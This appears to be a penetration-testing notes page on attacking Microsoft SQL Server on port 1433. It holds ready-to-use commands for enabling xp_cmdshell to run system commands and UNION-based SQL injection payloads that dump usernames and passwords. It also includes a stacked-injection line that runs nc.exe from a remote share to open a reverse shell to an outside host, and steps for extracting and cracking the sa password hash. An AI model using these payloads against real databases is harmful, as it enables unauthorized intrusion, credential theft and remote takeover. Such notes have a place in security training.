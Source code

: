 ```yaml
---
title: PORT 1433/tcp - Microsoft SQL Server
category: Services
order: 10
---
```


# Introduction

Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network.

# Syntax

```
select CURRENT_USER
select name from master..sysdatabases
select name from music..sysobjects  WHERE xtype = 'U'
select name from syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users')
select user, password from users
```

# RCE With Credentials

## sqsh

```
sqsh -S <IP-ADDR> -U <user> -P <pass> -D <database>
```

In MSSQL there is a procedure called **xp\_cmdshell** that receives a command from Windows, executes it and return the result as rows of text. Although the most common case is that the user of the application does not have permissions to execute the **xp\_cmdshell** procedure because is disabled by default, it has been seen on several occasions that, due to a misconfiguration, it does have permissions to enable it.

We need to configure `xp_cmdshell`.

```
1> EXEC SP_CONFIGURE N'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> EXEC SP_CONFIGURE N'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> RECONFIGURE
2> go
```

Once configured we can execute commands with `sqsh` or `crackmapexec`.

```
1> xp_cmdshell 'dir c:\';
2> go
```

## crackmapexec

We can execute code in a easier way with crackmapexec.

```
crackmapexec mssql -u sa -p password --local-auth -x 'whoami'
```

# SQL Injection in MSSQL

To understand the vulnerability visit the following page link.

* [SQL Injection](/hackingnotes/web/sqli/)

Some SQLi payloads are the following (supposing that the original query return two values):

```
' union all select 1,2 -- -

# Current User
' union all select CURRENT_USER, 2 -- -

# Databases
' union all select name, 2 from master..sysdatabases -- -

# Tables from database "music"
' union all select name, 2 from music..sysobjects  WHERE xtype = 'U' -- -

# Columns from "users" table
' union all select name, 2 from syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users') -- -

# Dump a table
' union all select user, password from users -- -
```

We can also append commands on the query and execute commands with the procedure **xp\_cmdshell.**

```
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; -- -
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- -
'; EXEC xp_cmdshell '\\10.10.10.10\share\nc.exe -e cmd.exe 10.10.10.10 443' -- - 
```

# LFI or File Download to RCE

If we are able to download any file of the system and has the MSSQL port open, we can retrieved the **sa** hash.

We need to download a copy of the master.mdf file located on:

```
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLEXPRESS/MSSQL/DATA/master.mdf
or
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLSERVER/MSSQL/DATA/master.mdf
```

Since the file is running we can not read it, so we need to find a backup. Some backups are available here:

```
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLEXPRESS/MSSQL/Backup/master.mdf
```

Once downloaded we can dump the hashes with [XPN script.](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)

* [https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)

> **Note:** The code fails while trying to load OrcaMDF dlls, see the following pull request to fix it.
>
>[https://github.com/xpn/Powershell-PostExploitation/pull/2](https://github.com/xpn/Powershell-PostExploitation/pull/2)

_File changed:_

![Tothi pull request.](/hackingnotes/images/file_changed.png)

We just need to import the module and extract the hashes.

```
Import-Module Get-MDFHashes.psq
Get-MDFHashes -mdf master.mdf
```

![Dumping mdf hashes](/hackingnotes/images/mdf_hashes.png)

We can crack it with Hashcat (mode 1731).

```
hashcat -a 0 -m 1731 hash.txt /usr/share/wordlists/rockyou.txt
```

Once obtained the credentials we can execute code with `crackmapexec` or `sqsh`.

* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)

# **References**

* [https://www.tarlogic.com/blog/red-team-tales-0x01/#:\~:text=In%20MSSQL%2C%20there%20is%20a,occurs%20in%20the%20original%20query.](https://www.tarlogic.com/blog/red-team-tales-0x01/#:\~:text=In%20MSSQL%2C%20there%20is%20a,occurs%20in%20the%20original%20query.)
* [https://dotcppfile.wordpress.com/2014/07/24/reading-files-in-mssql-injection-tutorial/](https://dotcppfile.wordpress.com/2014/07/24/reading-files-in-mssql-injection-tutorial/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)
